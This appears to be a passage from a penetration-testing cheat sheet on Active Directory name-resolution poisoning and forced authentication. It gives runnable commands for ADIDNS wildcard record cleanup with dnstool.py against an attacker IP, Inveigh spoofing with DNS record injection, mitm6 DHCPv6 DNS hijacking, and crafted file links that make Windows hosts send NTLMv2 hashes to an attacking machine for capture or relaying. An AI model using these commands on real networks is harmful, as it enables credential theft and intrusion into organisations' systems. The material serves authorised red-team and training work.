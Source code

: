#### Cleanup record
```
Remove-ADIDNSNode -Node *
```

```
dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '*' --action remove --data <ATTACKER IP> <DC IP>
```

#### Check DNS
```
nslookup idontexist.<DOMAIN>
Resolve-DnsName idontexist.<DOMAIN>
```

### Inveigh
- Inveigh can dynically spoof this too
- `combo` Add a record to DNS if the same request is received with LLMNR/NBNS from multiple systems
- `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad.
- `wildcard` injects a wildcard record
```
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

### Mitm6
- https://github.com/dirkjanm/mitm6
- In modern Windows operating systems, IPv6 is enabled by default. This means that systems periodically poll for an IPv6 lease, as IPv6 is a newer protocol than IPv4, and Microsoft decided it was a good idea to give IPv6 precedence over IPv4.
- However, in the vast majority of organizations, IPv6 is left unused, which means that an adversary could hijack the DHCP requests for IPv6 addresses and force authentication attempts to the attacker-controlled system. We do that by setting our system as the primary DNS server.
- Spoof any requests for internal resources
```
sudo python3 mitm6.py -d <DOMAIN> --ignore-nofqdn
```

### Files
- It is possible to force authentication if a user opens a file location in explorer or files itself.
- Will authenticate to our attacking machine as the user
- Tools that can create these files:
  - https://github.com/mdsecactivebreach/Farmer - Windows
  - https://github.com/Greenwolf/ntlm_theft - Python

#### Link file
- Explorer automaticly connects if folder where the SearchConnector is, is opened.
- On Windows right click --> New --> Shortcut --> and in the URL use
- Creates a ```[SMB] NTLMv2-SSP Hash``` in responder, ```[*] SMBD-Thread-4:``` in ntlmrelayx. Can be used against relaying to SMB.
```
file://<IP>/test
```
